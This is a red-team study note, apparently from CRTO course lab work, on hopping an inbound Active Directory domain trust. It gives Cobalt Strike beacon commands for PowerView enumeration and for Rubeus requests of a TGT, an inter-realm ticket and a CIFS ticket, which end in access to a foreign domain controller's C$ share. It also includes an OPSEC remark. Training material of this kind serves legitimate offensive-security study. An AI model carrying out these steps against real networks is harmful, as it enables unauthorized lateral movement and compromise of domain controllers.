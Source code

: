 
#### 🖊️ via Cobalt Strike

Lets assume `dev-studio.com` trusts `dev.cyberbotic.io`, one way trust, meaning `dev.cyberbotic.io` has Inbound Trust.

1) Let's check our domain trust

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : dev-studio.com
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
```

2) Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain.  We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

dnshostname      
-----------      
dc.dev-studio.com
```

3) `Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

GroupDomain             : dev-studio.com
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=dev-studio,DC=com
MemberDomain            : dev-studio.com
MemberName              : S-1-5-21-569305411-121244042-2357301523-1120
MemberDistinguishedName : CN=S-1-5-21-569305411-121244042-2357301523-1120,CN=ForeignSecurityPrincipals,DC=dev-studio,DC=com
```

4) This output shows that there's a member of the domain's built-in Administrators group who is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120

DEV\Studio Admins
```

5) To hop this trust, we only need to impersonate a member of this group named Studio Admins

```
beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName

MemberName
----------
nlamb
```

6) To hop a domain trust using Kerberos, we first need an inter-realm key.  Obtain a TGT for the target user (here I am using `asktgt` with their AES256 hash).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap
```

7) Next, use that TGT to request a referral ticket from the current domain to the target domain.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap`

⚠ If this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`, this is the default configuration unless AES has been specifically configured on the trust, so this is not necessarily bad OPSEC.

8) Finally, use this inter-realm ticket to request TGS's in the target domain.  Here, I'm requesting a ticket for CIFS.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

...

beacon> run klist

Current LogonId is 0:0x45bcb0

Cached Tickets: (1)

#0>	Client: nlamb @ DEV.CYBERBOTIC.IO
	Server: cifs/dc.dev-studio.com @ DEV-STUDIO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	
beacon> ls \\dc.dev-studio.com\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 09:15:48   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
```




#### ⚠ Opsec




### Properties
---
📆 created   {{27-02-2024}} 12:02
🏷️ tags: #redteam #crto 

---


